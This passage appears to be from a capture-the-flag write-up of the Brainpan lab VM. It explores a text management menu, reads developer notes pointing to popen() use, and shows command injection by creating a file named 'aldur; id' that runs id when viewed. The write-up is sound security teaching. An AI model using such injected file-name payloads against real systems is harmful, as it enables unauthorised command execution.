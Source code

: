     TYPE "TELL ME MORE" FOR A LIST OF COMMANDS.
                             *  *  *  *


                          >> TELL ME MORE
    FILES    HELP    VIEW       CREATE
    USERS    MSG     SYSTEM     BYE

                          >>
{% endhighlight %}

So, we've now access to a simple management system.
After experimenting with the commands, I noticed something interesting.

{% highlight bash %}
                          >> FILES
total 44
-rwxr-xr-x 1 root   root   18424 Nov  4  2013 brainpan.exe
-rw-r--r-- 1 root   root    1109 Nov  5  2013 brainpan.txt
-rw-r--r-- 1 root   root     683 Nov  4  2013 notes.txt
-rw-r--r-- 1 anansi anansi    12 Nov  5  2013 test-1
-rwxrwxrwx 1 anansi anansi    19 Nov  5  2013 test-2

                          >> VIEW
    ENTER FILE TO DOWNLOAD: notes.txt
TODO LIST
---------
reynard:
 - Completed manpage. Read with groff or man.
 - Renamed to brainpan.txt instead of brainpan.7.
 - Fixed call to read manpage: popen("man ./brainpan.txt", "r");

puck:
Easiest way to display file contents is to just use popen(). Eg:
popen("/bin/ls", "r");
popen("/bin/man ./brainpan.7", "r");
popen("/usr/bin/top", "r");
etc...

anansi:
 - Fixed a reported buffer overflow in login in version 1.0.
 - Discovered buffer overflow in the command prompt, fixed as of version 2.0

puck: look into loading a configuration file instead of hardcoding settings
in the server, version 1.8
anansi: dropped configuration file - leave it hardcoded, version 1.9
{% endhighlight %}

This hints that they're using `popen("cat <filename>", "r")` to display the content of those files.
We can also create the files we like, with the `CREATE` command.
Can we trick `popen` into executing arbitrary commands?
Yes we can! 

{% highlight bash %}
                          >> CREATE
    ENTER FILE TO CREATE: aldur; id
    ENTER CONTENTS:
    FILE CREATED
                          >> VIEW
    ENTER FILE TO DOWNLOAD: aldur; id
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
{% endhighlight %}

